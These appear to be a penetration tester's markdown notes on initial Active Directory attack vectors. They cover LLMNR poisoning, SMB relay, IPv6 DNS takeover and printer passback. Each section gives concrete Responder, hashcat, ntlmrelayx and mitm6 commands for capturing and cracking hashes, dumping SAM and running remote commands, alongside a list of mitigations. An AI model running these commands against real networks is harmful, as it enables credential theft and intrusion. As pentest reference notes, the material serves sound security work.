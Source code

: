 # AD: Initial Attack Vectors
Internal Notes

### LLMNR Poison
- Something like Responder for tooling to perform these attacks.
- MITM based
- Maybe worth running Responder at the same time as Nessus/Nexpose/VAS scans, to obfuscate & utilize traffic that is common.
  - `responder -I {interface} -dwPv`
- Captured Hashes can crack
  - `hashcat -m 5600 crack.txt /usr/share/wordlists/fasttrack.txt` 

#### Remediation
- GPO: DNS Client: Multicast Name Resolution(Botom of List)
- NAC
- Password Policy
___  
### SMB Attacks
- Responder (Relay) - Ensure HTTP and SMB servers off. Should have an Admin Account to be worth it
  - `nmap --script=smb2-security-mode.nse -p445 10.0.0.25`
  - `ntlmrelayx.py `
    - Dumps SAM
  - `ntlmrelayx.py -i`: Interactive(Establish Bind Shell on local address)
    - `nc 127.0.0.1:11000` - `help` list of options that can be performed through the smb client shell
  - `ntlmrelayx.py -c "Bad Stuff command"` - Remote Code Execution through SMB relay 

#### Mitigations
- SMB Signing
- Disable NTLM
- Account tiers
- Local Admin Restrictions

---
### IPv6
- Relay(DNS Takeover) - **MITM6**  (Be careful!) - Short runs
  - `ntlmrelayx.py -6 -t ldaps://{target/DC} -wh  fakewpad.{domain} -l lootXoR`
  - `mitm6 -d {domain}`

#### Mitigations
- Disable IPv6
  - DHCPv6-In (Block)
  - ICMPv6-In (Block)
  - DHCPv6-Out (Block) 
- LDAP Signing
- Disable WPAD (WinHttpAutoProxySVC GPO)
- Prevent Delegation/Impersonation
---
### Passback Attack
[Printer Hacking](https://mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack)
Use this to MitM from Printer to SMB/LDAP to capture creds. (May be high priv, or joining privs?)

